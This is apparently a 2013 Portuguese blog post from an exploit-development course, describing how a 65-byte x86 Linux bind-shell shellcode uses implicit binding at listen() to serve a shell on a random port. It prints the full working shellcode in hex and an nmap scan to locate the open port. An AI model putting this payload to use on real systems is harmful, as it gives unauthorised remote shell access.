 ```yaml
---
layout: post
title: Hacking do Dia - Shell Bind TCP Random Port
date: '2013-03-18T23:00:00.000-03:00'
author: geyslan
tags: [slae, shellcode, linux, code, assembly, c, hacking, metasploit, portuguese]
modified_time: '2014-05-04T11:38:14.382-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1583820687648973523
blogger_orig_url: http://www.hackingbits.com/2013/03/hacking-do-dia-shell-bind-tcp-random.html
---
```


*/\*<br>
Para melhor entendimento, leiam o post anterior [SLAE - 1st Assignment - Shell Bind TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
\*/*

<!--more-->

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-834.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

*\<UPDATE 2\><br>
Foram incluídas no Metasploit as versões x86 e x86_64 deste payload.<br>
Tks Ewerson Guimarães (Crash), Tod Beardsley and all involved in Metasploit project.<br>
x86
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
x86_64
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
\</UPDATE 2\>*

Olá pessoal!

Comentários são sempre fantásticos. Sabem por quê?

Porque através da troca de conhecimento ideias surgem. E, havendo vontade, essas
ideias podem se transformar em algo útil.

Esta tarde, [Tiago Natel](https://twitter.com/_i4k_)
([SecPlus](http://www.secplus.com.br/)) me respondeu, com veemência e
propriedade, sobre o post [SLAE - 1st
Assignment](slae-1st-assignment-shell-bind-tcp.html)
na lista do [Brasil
Underground](https://groups.google.com/forum/?fromgroups#!forum/brasil-underground).
A informação que ele passou sobre shellcodes e o uso do **SO_REUSEADDR** foram
engrandecedoras para mim e os demais da lista.

Por e-mail, marcamos de debatermos o assunto, o que aconteceu no finalzinho da
tarde.

Fizemos, em conjunto, uns debbugs e traces dos shellcodes do metasploit e do que
disponibilizei via
[github](https://github.com/geyslan/SLAE/tree/master/1st.assignment).
Constatamos que realmente o do metasploit gera SIGSEGV quando a porta ainda está
em TIME_WAIT, uma vez que ao tentar fazer o bind, e não conseguir, o registrador
$eax recebe número negativo (erro) e fica poluído. Mesmo as novas cópias para
esse registrador não resolvem, já que, para se evitar null-bytes, os shellcodes
têm mov's usando o registrador $al, que copiam apenas 1 byte, deixando o resto
de $eax como está. Bom, dá para imaginar que o shellcode não vai funcionar muito
bem. :D

Identificamos, porém, que quando o meu shell_bind_tcp, sem opção SO_REUSEADDR,
era instanciado pela segunda vez, ou seja, com a porta da instância anterior
ainda em TIME_WAIT, o socket, ao ser criado, usava uma porta aleatória. De
início, achamos isso meio louco! Chegamos a pensar que a listen cuidava disso.
Eu pensei que era alguma coisa da libc, mas reproduzi o mesmo efeito com o
código asm (apenas com syscalls).

Nesse ínterim, Tiago, por ter bastante experiência, fez uma pesquisa rápida no
google e  encontrou informações a respeito do uso do bind no manual POSIX da
Fujitsu Siemens Computer
([SOCKETS/XTI(POSIX)](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)).

Vejam o achado dele (pg. 23):

> 2.6.6 Automatic address assignment by the system<br><br>
You can still call a function for a socket which actually requires a bound
socket (e.g. connect(), sendto(), etc.), **even if the socket has no address
assigned to it. In this case, the system executes an implicit bind() call with
wildcards for the Internet address and port number, i.e. the socket is bound
with INADDR_ANY to all IPv4** addresses and with IN6ADDR_ANY to all IPv6 addresses
and IPv4 addresses of the host **and receives a free port number from the range of
non-privileged port numbers.**

O que isso quer dizer?

Se não tivermos feito bind no socket, ou se o bind não acontecer por não haver
endereço e/ou porta disponíveis, como identificamos no meu shell_bind_tcp sem
SO_REUSEADDR, ao se utilizar syscalls como connect, sendto, no nosso caso a
listen, o sistema se encarrega de fazer um bind genérico com o atributo
INADDR_ANY e de disponibilizar uma porta dentre os números não privilegiados.

De certa forma estávamos corretos, pois pensávamos que era a listen que estava a
fazer o bind automático; em verdade, foi através dela que o sistema se
encarregou de amarrar o socket a um endereço disponível.

*Sim, e daí?*

Os shellcodes não imploram para serem pequenos e se adequarem aos buffers
explorados?

Quase que instantaneamente tivemos a ideia de retirar o setsockopt (usado no meu
shellcode) e o próprio bind (usado em todos).

Vocês não imaginam o tamanho do novo
[shell_bind_tcp_random_port](https://github.com/geyslan/SLAE/tree/master/improvements)...

**Míseros 65 bytes**

{% highlight console %}
$ echo -e "\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x5f\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\x43\x89\x54\x24\x08\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xca" | /opt/libemu/bin/sctest -vvv -Ss 100000 -G shell_bind_tcp_random_port.dot
{% endhighlight %}

{% include image.html url="https://raw.github.com/geyslan/SLAE/master/improvements/shell_bind_tcp_random_port_shellcode.png" desc="Fluxograma do shell_bind_tcp_random_port" %}

*Ah, mas isso não serve! Do que adianta se eu não posso setar a porta?*

**nmap nele!**

{% highlight console %}
$ nmap -sS host -p-
{% endhighlight %}

Só tenho algo mais a dizer: **COMPARTILHEM!!**

*P.S.* Valeu, Tiago!

##Mais Informações

[Hacking bits - github](https://github.com/geyslan)<br> [Metasploit x86
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
[Metasploit x86_64
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
[SecPlus - github](https://github.com/SecPlus/)<br>
[SecPlus](http://www.secplus.com.br/)<br> [POSIX - SOCKETS/XTI for POSIX -
Manuals - Fujitsu](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)<br>
[bind() - POSIX - IEEE Std
1003.1-2008](http://pubs.opengroup.org/onlinepubs/9699919799/functions/bind.html)<br>
[nmap](http://nmap.org/)<br> [Brasil
Underground](https://groups.google.com/forum/?fromgroups#%21forum/brasil-underground)<br>
